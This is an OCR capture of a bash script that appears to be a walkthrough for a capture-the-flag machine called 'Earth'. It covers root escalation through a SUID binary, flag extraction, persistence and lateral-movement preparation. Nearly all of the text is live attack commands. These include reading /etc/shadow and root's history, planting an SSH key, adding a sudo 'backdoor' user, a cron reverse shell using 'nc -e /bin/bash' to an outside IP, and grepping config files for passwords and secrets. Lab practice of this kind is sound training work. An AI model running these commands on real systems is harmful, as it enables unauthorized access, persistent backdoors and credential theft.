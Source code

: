 ```bash
chmod 666 /dev/shm/kHgTFI5G
chmod 666 /dev/shm/Zw7bV9U5
chmod 666 /tmp/kcM0Wewe

# Execute the SUID binary
/usr/bin/reset_root

# Test root access
su root
# Password: Earth (or whatever the binary sets)

# Verify root privileges
whoami
id
cat /etc/shadow | head -5

# ========================================
# PHASE 10: FLAG EXTRACTION & PERSISTENCE
# ========================================

# Find and extract flags
find / -name "*flag*" -type f 2>/dev/null
cat /var/earth_web/user_flag.txt
cat /root/root_flag.txt

# Extract sensitive information
cat /etc/shadow
cat /etc/passwd
cat /root/.bash_history
find /home -name ".ssh" -type d 2>/dev/null

# Create persistence mechanisms (for educational purposes)
# Add SSH key
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." > /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys

# Create backdoor user
useradd -m -s /bin/bash backdoor
echo "backdoor:password123" | chpasswd
usermod -aG sudo backdoor

# Cron job persistence
echo "*/5 * * * * nc -e /bin/bash 192.168.131.128 5555" | crontab -

# ========================================
# PHASE 11: LATERAL MOVEMENT PREPARATION
# ========================================

# Network discovery from compromised host
nmap -sn 192.168.131.0/24
arp -a
cat /etc/hosts

# Search for credentials and configuration files
grep -r -i "password" /etc/ 2>/dev/null | head -10
grep -r -i "secret" /var/www/ 2>/dev/null | head -10
find / -name "*.conf" -exec grep -l -i "password\|secret\|key" {} \; 2>/dev/null | head -10

# Database connection strings
grep -r -i "mysql\|postgresql\|mongodb" /var/www/ 2>/dev/null
grep -r -i "database" /etc/ 2>/dev/null | head -5
```